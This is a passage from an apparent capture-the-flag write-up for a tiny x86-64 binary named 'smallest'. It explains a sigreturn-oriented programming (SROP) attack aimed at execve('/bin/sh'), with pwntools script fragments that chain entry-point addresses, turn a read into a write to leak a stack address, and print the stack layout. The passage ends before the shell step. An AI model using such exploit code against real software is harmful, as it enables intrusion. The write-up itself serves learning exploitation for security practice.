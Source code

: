 Really, this is all we have. All input that we pass in is a ROP chain for the program to execute.

We do not have a libc to return to, and we do not have gadgets to control `rax`, `rdi`, `rsi` and `rdx` to prepare a `execve("/bin/sh", 0, 0)` system call. So, we have to use SROP for this.

First, prepare our exploit script.

```python
from pwn import *
from LibcSearcher import *

binary_name = './smallest'

p = process(binary_name)
context.arch = 'amd64'	# must be here or pwntools will give an error when using SigreturnFrame

entry = 0x4000b0
syscall_ret = 0x4000be
```

We prepare the stack to have 3 copies of the address to the entry point, we'll see later why.

```python
payload = p64(entry) * 3
p.send(payload)
```

Our stack is now

```
0x4000b0|0x4000b0|0x4000b0|rest of the stack
```

First read, we want to modify the next `0x4000b0` on the stack to be `0x4000b3`. Doing this sets `rax=1`, as `read` sets `rax` to be the number of bytes read. Also, this allows us to skip over the `xor rax, rax` instruction, allowing us to dump `0x400` bytes from the stack by calling `write(0, rsp, 0x400)` instead of `read`.

```python
p.send('\xb3')
```

Our stack is now

```
0x4000b3|0x4000be|rest of the stack
```

So, we get a dump of the stack, which contains a lot of stack addresses.

```python
stack_addr = u64(p.recv()[8:16])
log.success('Found stack addr: 0x%x' % stack_addr)
```

Now our stack is

```
0x4000be|rest of the stack
```
